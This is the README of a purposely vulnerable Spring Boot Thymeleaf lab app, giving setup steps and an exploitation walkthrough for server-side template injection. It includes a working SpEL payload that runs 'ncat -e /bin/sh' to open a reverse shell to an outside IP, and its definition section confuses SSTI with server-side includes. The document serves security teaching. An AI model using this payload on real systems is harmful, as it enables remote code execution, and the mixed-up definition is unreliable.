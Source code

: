 # Java-Thymeleaf-SSTI


simple spring boot app that contains an example of a SSTI vulnerability and its main goal is to describe how a malicious user could exploit it on this purposefully vulnerable app.

## What is Server Side Template Injection ?

SSIs are directives present on Web applications used to feed an HTML page with dynamic contents. They are similar to CGIs, except that SSIs are used to execute some actions before the current page is loaded or while the page is being visualized. In order to do so, the web server analyzes SSI before supplying the page to the user.

Owasp : https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection


## Setup

You can start the application with one of these methods
1. Go into the src directory and run these commands :
```
1- ./gradlew build

2- ./gradlew bootRun
```

2. Or simply you can go into the docker directory and run following command:
```
docker-compose up -d
```

3. Or directly run it with docker like this:
```
docker run --name ssti -d -p 8080:8080 siyavash/thymeleaf-ssti
```

Now visit [localhost:8080](http://localhost:8080)


## How To Exploit
After visitin [localhost:8080](http://localhost:8080) you must see a page like this:

![[homepage.png]]

to test SSTI simply type something like ${7*7} in the input and click join. it will be processed on server and you will see the result which is 49

![[49.png]]

Because the application is vulnerable to SSTI we try to achive RCE on the machine. to do this follow these steps:

1. Open a terminal and run following netcat command:
```
nc -v -l 9999
```

2. Now we have netcat listening on port 9999 for any incoming connection , we are going to inject or payload
3. Instead of e-mail paste following payload in the input. remember to replace your IP address with the current one
```
(${T(java.lang.Runtime).getRuntime().exec('ncat -e /bin/sh 192.168.0.192 9999')})
```

4. Here is a video getting reverse shell.

![[reverse-shell.mp4]]

## Fix Hint

https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
   
## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
 
 https://twitter.com/siavashvafshar
    
## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md

## Sample Report
